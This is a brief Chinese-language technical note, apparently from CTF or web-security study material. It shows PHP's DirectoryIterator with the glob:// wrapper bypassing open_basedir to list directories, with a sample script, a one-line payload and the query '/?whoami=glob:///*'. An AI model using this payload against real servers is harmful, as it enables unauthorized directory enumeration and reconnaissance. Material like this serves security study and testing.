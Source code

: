 # DirectoryIterator

提供了一个用于查看文件系统目录内容的简单接口，该类是在 PHP 5 中增加的一个类。


DirectoryIterator与glob://协议结合将无视open_basedir对目录的限制，可以用来列举出指定目录下的文件。


```plain
test.php<?php$dir = $_GET['whoami'];$a = new DirectoryIterator($dir);foreach($a as $f)    {     echo($f->__toString().'<br>');}?>    # payload一句话的形式:$a = new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().'<br>');}?>
Plain Text
```



我们输入`/?whoami=glob:///*`即可列出根目录下的文件：但是会发现只能列根目录和open_basedir指定的目录的文件，不能列出除前面的目录以外的目录中的文件，且不能读取文件内容。


但是经过积累，还是有类能够读到文件（见其他）



